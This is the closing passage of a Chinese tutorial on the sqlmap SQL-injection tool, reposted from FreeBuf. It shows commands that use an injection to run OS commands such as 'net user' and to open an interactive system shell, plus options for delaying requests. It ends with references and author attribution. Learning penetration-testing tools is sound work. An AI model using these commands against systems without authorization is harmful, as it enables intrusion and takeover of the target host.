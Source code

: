 ### 15.17 执行shell命令
```
sqlmap.py -u "url" –os-cmd="netuser" /*执行net user命令*/

sqlmap.py -u "url" –os-shell /*系统交互的shell*/
```

### 15.18 延时注入
```
sqlmap –dbs -u"url" –delay 0.5 /*延时0.5秒*/

sqlmap –dbs -u"url" –safe-freq /*请求2次*/
```



参考文章：
- http://sqlmap.org/
- https://github.com/sqlmapproject/sqlmap
- https://github.com/sqlmapproject/sqlmap/wiki
- https://sobug.com/article/detail/2
- https://blog.xiaohack.org/1378.html

————————
本文作者：simeon， 转载请注明来自[FreeBuf.COM](https://www.freebuf.com/)
原文：[超详细SQLMap使用攻略及技巧分享](https://www.freebuf.com/sectool/164608.html)